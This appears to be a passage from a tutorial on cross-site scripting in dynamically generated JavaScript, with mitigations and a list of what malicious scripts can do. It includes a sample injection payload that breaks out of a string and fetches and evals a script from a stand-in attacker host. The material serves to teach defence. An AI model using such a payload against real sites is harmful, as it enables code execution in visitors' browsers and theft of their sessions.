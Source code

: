 ```js
Uncaught SyntaxError: missing ) after argument list

```

Why? Because the generated script looks like this:

```js
addMessage("My mom said: "Life is good. Pie makes it better. "");

```

That's a syntax error. Than Alice posts:

```js
I like pie ");fetch("https://alice.evil/js_xss.js").then(x=>x.text()).then(eval);//

```

Then the generated script looks like:

```js
addMessage("I like pie ");fetch("https://alice.evil/js_xss.js").then(x=>x.text()).then(eval);//");

```

That adds the message `I like pie`, but it also **downloads and runs `https://alice.evil/js_xss.js` whenever someone visits Bob's site.**

### Mitigation:

1. Pass the message posted into [JSON.stringify()](https://stackoverflow.com/documentation/javascript/416/json/1385/serializing-a-value#t=201707081354449681532)
1. Instead of dynamically building a script, build a plain text file containing all the messages that is later fetched by the script
1. **Add a [Content Security Policy](https://stackoverflow.com/q/30280370/6560716) that refuses to load active content from other domains**



## Why scripts from other people can harm your website and its visitors


If you don't think that malicious scripts can harm your site, **you are wrong**. Here is a list of what a malicious script could do:

1. Remove itself from the DOM so that **it can't be traced**
1. Steal users' session cookies and **enable the script author to log in as and impersonate them**
1. Show a fake "Your session has expired. Please log in again." message that **sends the user's password to the script author**.
1. Register a malicious service worker that runs a malicious script **on every page visit** to that website.
1. Put up a fake paywall demanding that users **pay money** to access the site **that actually goes to the script author**.

Please, **don't think that XSS won't harm your website and its visitors.**

